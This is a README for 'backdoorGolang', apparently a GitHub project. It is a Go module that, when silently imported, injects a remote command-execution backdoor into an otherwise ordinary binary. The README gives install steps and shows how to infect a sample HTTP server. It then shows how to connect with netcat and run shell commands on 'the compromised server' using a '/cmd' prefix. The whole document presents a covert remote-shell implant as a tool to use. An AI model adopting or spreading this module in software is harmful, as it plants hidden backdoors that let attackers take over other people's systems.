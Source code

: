 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Run test example
Go to tests/simple_example, remove the inject_backdoor.go file and build it:

`go build`

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Follow the next session to see how to test the infected version of the binary.

## Client

Use netcat (It is used the 'localhost:23000' address hardcoded for now):

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```

### More instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Client connection

This instruction permit to logout the current user

```bash
/quit
/exit
```

Example :

```bash
echo "/quit"|netcat localhost 23000
```

#### Shell Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```

Example :

```bash
echo "/cmd ls -l"|netcat localhost 23000
```
